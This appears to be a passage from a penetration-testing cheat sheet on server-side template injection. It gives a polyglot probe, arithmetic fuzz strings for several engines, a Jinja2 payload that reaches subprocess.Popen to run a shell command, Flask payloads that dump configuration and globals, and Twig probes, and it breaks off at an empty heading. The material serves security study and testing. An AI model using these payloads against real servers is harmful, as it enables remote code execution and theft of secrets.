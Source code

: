# Server-side template injection

Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side
SSTI vulnerabilities arise when user input is concatenated into templates rather than being passed in as data
Mainly happens when **user input is embedded directly into a server-side template**, attackers can inject code to **read data**, **execute system commands**, or **achieve RCE** — depending on the template engine.

---
##  **Identification**
### Polyglot
`${{<%[%'"}}%\.`

---
###  Fuzz input with:

```plaintext
{{7*7}}
<%= 7*7 %>
${7*7}
#{7*7}

{{7*7}}<%= 7*7 %>${7*7}#{7*7}
```

## Exploitation

###  Jinja2 (Python Flask/Django)
####  Code execution payload:

```jinja
{{''.__class__.__mro__[1].__subclasses__()[407]('id',shell=True).communicate()[0]}}
```

 `407` is often the index of `<subprocess.Popen>` – use fuzzing if it's not.

####  Leak Environment:

```jinja
{{config.items()}}               # Flask
{{request.application.__globals__}}   # Flask internals
```

---

###  Twig (PHP)

```twig
{{7*7}}
{{7*'7'}}
```
### Enumeration:
